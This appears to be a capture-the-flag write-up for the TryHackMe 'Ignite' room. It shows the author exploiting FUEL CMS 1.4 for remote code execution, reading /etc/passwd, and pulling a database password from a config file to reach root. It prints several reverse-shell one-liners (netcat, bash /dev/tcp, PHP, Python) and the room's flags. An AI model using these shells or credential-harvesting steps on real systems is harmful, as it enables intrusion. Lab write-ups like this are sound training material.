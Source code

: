 # Tryhackme.com Room : Ignite
`https://tryhackme.com/room/ignite`


# Instance
```
export IP=10.10.100.30
export KALI_IP=52.48.202.232
```

# Nmap
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

This is a web challenge so naturally there is a web server running.
Seems to be running `FUEL CMS Version 1.4`

Run gobuster `gobuster dir -w /usr/share/dirb/wordlists/common.txt --url http://$IP`
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 200)
/assets (Status: 301)
/home (Status: 200)
/index (Status: 200)
/index.php (Status: 200)
/offline (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

`robots.txt` contains:
```
User-agent: *
Disallow: /fuel/
```
`/fuel` is the fuel cmd login page

We find an exploit for `Fuel CMS 1.4`
```
fuelCMS 1.4.1 - Remote Code Execution exploits/linux/webapps/47138.py
```

Had to modify a bit the exploit. Removed the proxy and changed the IP.
And just like that we get remote execution.

Running as :
```
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
cat /home/www-data/flag.txt
6470e394cbf6dab6a91682cc8585059b
```

We got the first flag

We check `/etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
```

`sudo -l` doesn't return anything. Maybe it's asking for a password but don't see the prompt. We don't have the password for www-data anyway

We should try to get a reverse shell instead of using the web exploit.

For some reason, when using any of these method it didn't work. The cmd returned directly :

```
nc -e /bin/sh 10.10.51.182 4444

bash -i >& /dev/tcp/10.10.51.182/4444 0>&1

php -r '$sock=fsockopen("10.10.51.182",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.51.182",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just written the reverse shell to file
```
echo "#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/10.10.51.182/4444 0>&1" > /tmp/t.sh
```

Than I `chmod +x` & `/tmp/t.sh` and we got a more usable shell

We need to get root.
Soo, we confirm that `sudo -l` ask for a password.

Can't find much with linpeas..

We find the password for the database (Not really usefull in getting root)
```
cat /var/www/html/fuel/application/config/database.php
'username' => 'root',
'password' => 'mememe',
```

Ho well, after some time trying to find exploits, I tried the database login wand got into root (lol)

Here is the root flag :
```
b9bbcb33e11b80be759c4e844862482d
```

